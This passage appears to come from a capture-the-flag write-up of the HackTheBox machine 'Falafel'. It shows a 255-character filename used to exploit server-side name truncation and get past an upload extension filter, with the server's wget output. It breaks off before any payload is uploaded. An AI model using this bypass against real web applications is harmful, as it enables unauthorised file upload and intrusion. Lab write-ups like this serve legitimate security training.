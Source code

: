 We get a Bad extension error. Next, let’s try _test.php.png_. The upload is successful but when we call the file, it views it as a PNG file that contains errors. After that, I tried a couple of other things that didn’t work, so I decided to instead enumerate more. If you click on the Profile link, you get the following page.

![](https://miro.medium.com/max/1213/1*qroxwqP9tU1Lu-oLBoWelg.png)

The quote “Know your limits” gives me the hint that maybe there is a character limit on the file name we upload, although there isn’t one on the client side. So let’s google the maximum character limit for a filename on linux.

![](https://miro.medium.com/max/652/1*x8t6kHw4eFPBTmAZB1SP2Q.png)

255 characters. Let’s generate a string of 255 letters.

```text
root@kali:~/Desktop/htb/falafel# python3 -c 'print("a" * 255);'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then remove the last four characters and add a “.png” extension.

```text
root@kali:~/Desktop/htb/falafel# touch aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.png
```

Now we have a file that has a filename with the maximum allowed number of characters on Linux. Upload the file on the application and view the error we get.

```text
<h1>Upload via url:</h1>  
<div>  
<h3>Upload Succsesful!</h3> 
<div>  
<h4>Output:</h4>  
<pre>CMD: cd /var/www/html/uploads/0202-1826_53228651d3b26695; wget 'http://10.10.14.12:5555/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.png'</pre>  
        
<pre>The name is too long, 255 chars total.
Trying to shorten...
New name is aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.
--2020-02-02 18:26:28--  http://10.10.14.12:5555/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.png
Connecting to 10.10.14.12:5555... connected.
HTTP request sent, awaiting response... 200 OK
Length: 0 [image/png]
Saving to: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
0K                                                        0.00 =0s
2020-02-02 18:26:28 (0.00 B/s) - 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' saved [0/0]
</pre>
```
